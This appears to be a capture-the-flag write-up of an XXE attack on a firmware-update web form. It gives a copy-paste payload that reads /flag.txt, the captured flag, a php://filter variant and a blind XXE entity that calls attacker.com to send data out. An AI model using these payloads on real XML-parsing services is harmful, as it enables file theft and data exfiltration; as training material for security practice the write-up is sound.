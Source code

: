 ### Final working payload (no XML declaration)
**What we sent (copy-paste into the `/rom` textarea)**
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///flag.txt" >
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```

**Why this works:**
- The DOCTYPE defines an external entity `xxe` pointing at `file:///flag.txt`.
- When the XML parser expands entities, `&xxe;` is replaced by the contents of `/flag.txt`.
- The app reflected parsed XML into `<pre id="messageText">` so the flag is shown to the user in the HTTP response.

---

## Results — flag retrieved
After submitting the payload into the firmware textarea and pressing **Submit**, the web app printed a success message that included the firmware version filled with the expanded entity. The web UI showed the flag text.

**Observed response (text captured from the page):**
```
Firmware version HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_98afd8fe1a996ca57d7cca89e9466d40} update initiated....
```

> The raw flag is hidden later in this document (see the hidden section below).

---

## Alternative techniques & fallbacks
If the server had filtered `file:///` or blocked direct file reads, these are common alternative strategies:

1. **Use PHP filter wrapper (if interpreter supports it)**
```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
```
Then the application will include base64 content which you can decode locally.

2. **Blind XXE (out-of-band exfiltration)**
Define an entity that triggers an HTTP request to an attacker-controlled host (if the parser resolves external resources over network):
```xml
<!ENTITY % remote SYSTEM "http://attacker.com/exp">%remote;
```
This requires you to control `attacker.com`'s DNS/HTTP to capture the request.
